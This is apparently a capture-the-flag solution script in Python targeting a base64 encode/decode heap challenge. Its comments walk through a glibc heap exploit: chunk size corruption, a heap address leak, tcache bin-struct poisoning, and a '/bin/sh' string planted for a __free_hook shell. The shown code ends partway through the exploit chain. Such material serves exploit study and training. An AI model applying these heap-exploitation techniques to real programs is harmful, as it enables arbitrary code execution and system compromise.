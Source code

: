 ```py
payload1 = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

add_Decode(Padding(0x41))  # 0
add_Decode(Padding(0x21))  # 1, the payload1 will modify chunk_1's size from 0x21 to 0x41, in order to modify the chunk_2's size
add_Decode(Padding(0x21))  # 2, the chunk_1 could modify the chunk_2's size to any value you wanna be
add_Decode(Padding(0x21))  # 3
add_Decode(Padding(0x21))  # 4

del_Decode(0)
add_Decode(payload1)       # 0

del_Decode(4)
del_Decode(3)

del_Decode(1) # 0x41
# modify the header of chunk from 0x21 to 0x31, read more data 
# and reserve a '/bin/sh' for __free_hook getshell
add_Decode(base64.b64encode(b'/bin/sh\x00' + p64(0) * 2 + p64(0x31) + p64(0) * 2 + b'\x00'))  # 1

# break the first bin and get the data
del_Decode(2) # 0x31
add_Decode(base64.b64encode(p64(0xffffffffffffffff) * 4 + b'\xff')) # 2

leak_addr     = u64_(show_Decode(2)[-6:])
heap_base     = leak_addr - 0x3ff
bin_struct    = heap_base + 0x10

# fix the first bin and redirect fd to bin_struct
del_Decode(2) # 0x31
add_Decode(base64.b64encode(p64(0) * 3 + p64(0x21) + p64(bin_struct)[:6]))  # 2

add_Decode(Padding(0x21))  # 3
# free 0, give the "modify" 0
del_Decode(0)
add_Decode(base64.b64encode(p64(0x7)))  # 0

def modify_bin_head(value: int) -> None:
	struct_data = flat({
		0x10 - 0x10:   0x7,            # bin_size
		0x90 - 0x10:   p64(value)      # bin_head
	}, filler=b'\0').ljust(0x291 - 0x10 + 0x05, b'\x00')

	del_Decode(0)
	add_Decode(base64.b64encode(struct_data))
	
def clear_bin_head() -> None:
	struct_data = flat({
		0x0:           0x0
	}, filler=b'\0').ljust(0x291 - 0x10 + 0x05, b'\x00')
	
	del_Decode(0)
	add_Decode(base64.b64encode(struct_data))

clear_bin_head()
add_Decode(Padding(0x21)) # 4 0x350
add_Encode(0x400 * b'a')  # 0 0x370
# prevent merging with top chunk
add_Decode(Padding(0x21))
del_Encode(0)

modify_bin_head(bin_struct + 0x350 - 0x10)
```